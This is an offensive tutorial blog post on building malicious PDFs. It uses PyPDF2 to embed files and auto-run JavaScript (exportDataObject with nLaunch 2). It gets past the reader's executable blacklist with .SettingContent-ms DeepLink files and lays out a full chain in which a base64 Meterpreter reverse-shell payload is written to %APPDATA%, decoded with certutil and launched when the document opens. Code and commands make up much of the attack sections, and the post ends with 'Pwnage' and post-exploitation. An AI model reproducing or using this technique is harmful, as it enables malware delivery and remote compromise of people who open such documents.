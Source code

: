 # *PDF Embedding Attacks*


PDF, or Portable Document Format, is an incredibly complex file format, governed by many standards and semi-standards. Like HTML and CSS, it was primarily designed for document layout and presentation. Also like HTML and CSS, it has been augmented with a JavaScript engine and document API that allows programmers to turn PDF documents into applications - or vehicles for malware.


# *Embedding Files in PDF Documents*

It’s very easy to embed any kind of file in a PDF document. Every document includes the EmbeddedFiles name tree, along with support for collections of files, known as portfolios.

Most PDF libraries provide support for this; we’ll examine PyPDF2, which supports everything we need and is pure Python.

PyPDF2’s PdfFileWriter provides a method called addAttachment which takes a name and some bytes and embeds them as a file in the PDF (docs).

This is how malware is usually concealed in a PDF document - as an embedded file.

# *Opening Files from PDF Documents*

Now that we have a payload embedded in a PDF document, we need to actually open it. The basic method for this is to also embed a script in the PDF document. In our case, we want to add a document level script. This script will execute as soon as the PDF is opened.

Fortunately, PyPDF2 also supports this! We can simply add a JavaScript object with the method addJS, and that JavaScript will be registered to run on the PDF opening.

Our JavaScript payload is pretty simple: we just add a single call to exportDataObject, a function provided by the PDF reader. This function takes an object with 2 parameters:

  - cName, the name of the embedded object, and
  - nLaunch, an instruction as to what the PDF reader should do with the exported object

nLaunch is just an integer, and it has three valid values:

    0. Prompt the user for a path and save the file there
    1. Prompt the user for a path, save the file, and ask the operating system to open it
    2. Pick a temporary location, save the file there, and ask the operating system to open it

That last option sounds great for malware. Assuming we embedded a file called myExploit.exe, we would add the following JavaScript:

    this.exportDataObject({
         cName: "myExploit.exe",
         nLaunch: 2,
    });

and it would run as soon as the PDF was opened, right? Well, not quite. Unfortunately, there’s a bit more to it; Adobe Reader (and most other readers) will prevent the launch of common executable files. For example, .exe, .js, .vba, and .bat files cannot be opened.

# *Evading the Blacklist*

There are many ways to evade the blacklist, such as Microsoft Word documents with malicious macros embedded in them [read more](https://isc.sans.edu/diary/PDF+maldoc1+maldoc2/20079), but recently, researchers discovered that another kind of file could be used: .SettingContent-ms. As explained by the [SpecterOps team](https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39), these are just XML documents pointing to specific places in the Windows 10 settings GUI. However, they contain a field called DeepLink which can contain any arbitrary executable which will be run when the SettingsContent-ms file is executed.


# *Deploying a Payload*

Let’s bring this all together. How would we use this in a real attack?

There are a few steps we need to perform in order to get this attack working.

### - 1: Create a Payload

There are many great ways of creating effective payloads. In this case, I’ll assume you have a payload already; my payload of choice is a Meterpreter reverse shell encoded with some type of cloaker.
### - 2: Encode the Payload in Base64

We can use certutil.exe -encode InputFile EncodedFile on Windows or base64 input > output on Linux to encode and decode files with Base64. This will let us more readily insert it where it is needed.
### - 3: Embedded Files

We need to run 3 commands, so we’ll use the above method to embed three files. They will all be valid SettingContent-ms XML, differing only in the DeepLink node.

    1. PutFile.SettingContent-ms which will echo the Base64 encoded payload to disk at a known path (echo b46c827y... > %APPDATA%\evil.b64).
    
    2. Decode.SettingContent-ms which will decode the Base64 encoded payload into an EXE ( certutil -decode %APPDATA%\evil.b64 %APPDATA%\evil.exe)
    
    3. Execute.SettingContent-ms which will actually run that file. (%APPDATA%\evil.exe)

### - 4: Scripts

Now, we need a single script which will run all of these:

    var files = ["PutFile", "Decode", "Execute"];
    for (var i = 0; i < files.len; i++) {
	this.exportDataObject({
		cName: files[i] + ".SettingContent-ms",
		nLaunch: 2,
	});
   }

### -5: Pwnage!

Now we have our Metasploit payload running on the target! Congratulations, time to move into post-exploitation.

# Alternative Methods

Another method would be to use Reflective PE Injection, converting a PowerShell process into the process for our executable. To learn more about this, check out this post.

# Conclusion

PDF files are extremely complex, and the applications that read them tend to be old and full of cruft, designed without security in mind. A black-listing method will never be effective in eliminating all dangerous files, as we can see here. This technique requires no exploits; we just ask the OS to run a file for us and it does so!

Last updated Jun 15 2023 
